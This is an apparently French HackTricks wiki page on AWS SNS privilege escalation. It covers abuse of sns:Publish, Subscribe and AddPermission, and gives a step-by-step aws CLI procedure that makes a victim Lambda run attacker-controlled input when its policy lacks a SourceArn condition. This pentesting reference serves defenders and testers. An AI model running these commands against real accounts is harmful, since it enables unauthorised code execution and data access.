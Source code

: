 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

Pour plus d'informations, consultez :

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

Un attaquant pourrait envoyer des messages malveillants ou indésirables au SNS topic, pouvant potentiellement provoquer une corruption de données, déclencher des actions non désirées ou épuiser les ressources.
```bash
aws sns publish --topic-arn <value> --message <value>
```
**Impact potentiel** : Exploitation de vulnérabilités, corruption de données, actions involontaires ou épuisement des ressources.

### `sns:Subscribe`

Un attaquant pourrait s'abonner à un SNS topic, obtenant potentiellement un accès non autorisé aux messages ou perturbant le fonctionnement normal des applications qui s'appuient sur ce topic.
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**Potential Impact**: Accès non autorisé aux messages (informations sensibles), perturbation du service pour les applications s'appuyant sur le topic affecté.

### `sns:AddPermission`

Un attaquant pourrait accorder à des utilisateurs ou services non autorisés l'accès à un topic SNS, obtenant potentiellement des autorisations supplémentaires.
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Impact potentiel** : accès non autorisé au topic, exposition des messages, ou manipulation du topic par des utilisateurs ou services non autorisés, perturbation du fonctionnement normal des applications dépendant du topic.

### Invoquer une Lambda en abusant d'une permission SNS générique (no `SourceArn`)

Si la politique basée sur les ressources d'une fonction Lambda autorise `sns.amazonaws.com` à l'invoquer sans restreindre le topic source (`SourceArn`), n'importe quel topic SNS (même dans un autre compte) peut s'abonner et déclencher la fonction. Un attaquant disposant de permissions SNS basiques peut forcer la fonction Lambda à s'exécuter sous le rôle IAM de la fonction avec des entrées contrôlées par l'attaquant.

> [!TIP]
> TODO : Est-ce vraiment possible entre comptes ?

Préconditions
- La politique de la Lambda victime contient une déclaration comme ci-dessous, SANS condition `SourceArn` :
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
Étapes d'abus (même compte ou entre comptes)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**Impact potentiel**: La Lambda victime s'exécute avec son rôle IAM, traitant des entrées contrôlées par l'attaquant. Cela peut être abusé pour amener la fonction à effectuer des actions sensibles (par ex., écrire dans S3, accéder à des secrets, modifier des ressources) selon ses permissions.

{{#include ../../../../banners/hacktricks-training.md}}
